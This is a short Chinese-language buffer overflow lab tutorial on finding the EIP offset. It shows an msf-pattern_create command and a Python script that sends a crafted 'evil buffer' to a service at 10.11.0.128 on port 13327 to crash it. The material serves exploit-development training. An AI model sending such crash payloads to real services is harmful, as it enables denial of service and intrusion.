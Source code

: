 ![image-20200506091557844](assets/5.BOF.assets/image-20200506091557844.png)

### 控制EIP

生成字符串

```bash
kali@kali:~$ msf-pattern_create -l 4379Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6A..
```

替换脚本输入

```python
#!/usr/bin/python
import socket
host = "10.11.0.128"
#crash = "\x41" * 4379
patter = "4379Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6A.."
buffer = "\x11(setup sound " + patter + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```

得到崩溃的EIP值，返回运算

![image-20200506091935442](assets/5.BOF.assets/image-20200506091935442.png)
